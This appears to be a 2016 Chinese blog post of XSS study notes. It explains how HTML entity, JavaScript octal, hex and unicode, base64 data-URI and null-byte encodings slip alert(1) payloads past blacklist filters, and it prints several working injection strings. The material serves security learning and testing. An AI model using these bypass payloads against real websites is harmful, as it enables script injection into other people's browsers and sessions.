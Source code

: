 ```yaml
---
title: XSS学习笔记1
time: 2016.02.01 17:47:00
layout: post
catalog: true
tags:
- 信息安全
- Web
- XSS
excerpt: XSS学习的一些总结，包括实体编码，js编码，base64编码，和一些绕过黑名单检测的方法，最后还有一个fuzzing的福利^_^
    


---
```


### Entity编码
- HTML解析器在建立文档树的时候会针对节点内的Entity编码后传输,html实体编码本身存在的意义是防止与HTML本身语义标记的冲突。
  以下两个表示相同：

  	<img src="http://www.example.com"> 
  	<img src="ht&#x74;p&#x3a;//www.example.com">
  下面两个例子代码不会执行，因为，编码的是标签本身的结构而非节点内的内容：

  	<img src&#x3d;"http://www.example.com"> 
  	<img s&#x72;c="http://www.example.com">

- HTML实体编码有两种，10进制与16进制


  {% highlight HTML %}
  如把尖括号编码[ < ]  -----> html十进制: &#60;  html十六进制:&#x3c;
  {% endhighlight %} 

- 比如有一个输出点：

  	<img src="[代码]"> 
  且过滤了script < > / \ http: 以及各种危险字符。

  那么，我们可以在这里 闭合双引号 写事件: onerror=[html language="实体编码"][/html][/html]。
  构造代码：
  ​	
  	<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
  原代码：
  ​	
  	<img src="x" onerror="alert(1)">
  这里我用的是html十进制编码，也可以使用十六进制的html实体编码！

  之所以不用jsunicode 以及 js八进制跟js十六进制，是因为浏览器一般是不会在html标签里解析js中的那些编码的！所以我们在onerror=后面放js中的编码是不会解析的，也可以说浏览器会把它当作一个txt文件解析，解析结果仍然还是原来的数据。

- 有时，有些过滤器会过滤& #符号，此时我们就不能只用HTML实体编码了。但，如果此时的输出点是一个可以执行js的标签中，且输入点是一个url地址，那么我们可以这样构造：

  	',alert(1)' ＝＝＝》
  	html16进制编码 &#x27,alert(1)+&#x27
  	＝》》url编码%26%23x27,alert(1)%2b%26%23x27
  说明：url编码用于绕过&＃的过滤

---

###黑名单防御XSS的一些问题
一般程序做XSS防御的时候都会考虑上文到HTML编码问题（过滤&＃），也会拦截一些特殊的字符'"(){}<>:/;，但大多数过滤器会忽略下面的问题：

1. 忽略HTML5新增实体标签
   {% highlight html %}
   &colon; => [冒号]
   &NewLine; => [换行]
   case: <a 	 
   href="javasc&NewLine;ript&colon;alert(1)">click</a>
   {% endhighlight %}

2. Hex编码常规变异(增添多个0)

   	对于<可编码为&#x00000003c;
3. Hex编码非常规变异（url＋多个0）
   ​	
   	对于<可编码为%26%23x00000000003c;
4. html编码去分号（html16进制编码的分号是可以去掉的）

   	对于<可编码为&#x3c
   ​	

---

###Javascript编码
js能识别的编码有：Jsunicode js8进制 js16进制

JS的注入点一般分为两种情况：

1. 输入的值存入某个变量，然后经过一系列变换最后出现在某个能把字符串当做JS代码来执行的函数里。该函数一般为：eval（），setTimeout（），setInterval（）...
2. 还有一种情况就是在一个搜索框内

   比如：

   	var search = "可控点";
   	document.getElementById().innerHTML=search;

对于上述情况，大多数程序都会过滤<> ' " & %等特殊字符

此时，我们就要尝试用js8进制和10进制进行绕过。

对于原代码为：

	<img src=x onerror=alert('xss')>

js八进制编码：
​		
		\74\151\155\147\40\163\162\143\75\170\40\157\156\145\162\162\157\162\75\141\154\145\162\164\50\47\170\163\163\47\51\76
js16进制编码：

	\x3c\x69\x6d\x67\x20\x73\x72\x63\x3d\x78\x20\x6f\x6e\x65\x72\x72\x6f\x72\x3d\x61\x6c\x65\x72\x74\x28\x78\x73\x73\x29\x3e

JSunicode编码： 

	\u003c\u0069\u006d\u0067\u0020\u0073\u0072\u0063\u003d\u0078\u0020\u006f\u006e\u0065\u0072\u0072\u006f\u0072\u003d\u0061\u006c\u0065\u0072\u0074\u0028\u0027\u0078\u0073\u0073\u0027\u0029\u003e

测试以后，都能跳出这个界面：

![image](https://momomoxiaoxi.com/img/post/XSS/2.png)

注：在XSS中，字符数的长短也是一个很重要的问题！越短越好！
在asp的站中插XSS代码的时候，（存储型XSS），经常会因为插入的代码太长，导致数据库字段的长度不够，最终存不进去，报错的情况。所以，XSS的代码越短越好。

---

### base64编码

base64一般用于下列情况
​	
	<a href="可控点">
	<iframe src="可控点">

如果这种情况下，程序过滤了<> ' " javascript的话，XSS可尝试利用base64编码
​	
	<a href="data:text/html;base64, PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg==">test</a>

用chrome测试：
![image](https://momomoxiaoxi.com/img/post/XSS/3.png)

![image](https://momomoxiaoxi.com/img/post/XSS/4.png)

上图，当点击test是，浏览器就会以data协议对text/html进行解析，编码为base64，最终解析为
​	
	<img src=x onerror=alert(1)>
然后成功弹窗。

---

### 空字符绕过
IE浏览器会自动忽略空字符，并解析剩下的代码，可以通过插入空字符绕过大多数采用正则匹配黑名单字符串的过滤器。

比如：
{% highlight php %}
<?php 
echo '<im'.chr(0).'g sr'.chr(0).'c=x onerror=ale'.chr(0).'rt(1)>';
?>
{% endhighlight %}


### 	Fuzzing
![image](https://momomoxiaoxi.com/img/post/XSS/1.png)

### 参考
1. http://taligarsiel.com/Projects/howbrowserswork1.htm
2. http://drops.wooyun.org/tips/147
